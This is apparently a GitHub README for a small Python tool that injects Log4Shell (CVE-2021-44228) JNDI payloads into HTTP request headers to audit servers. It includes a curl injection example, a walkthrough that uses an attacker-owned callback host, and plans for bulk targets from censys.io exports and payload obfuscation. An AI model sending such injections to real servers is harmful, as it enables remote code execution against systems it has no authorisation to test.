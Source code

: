 # Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/a}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.

![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
![Imgur](https://i.imgur.com/jZYjjmV.png)

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.
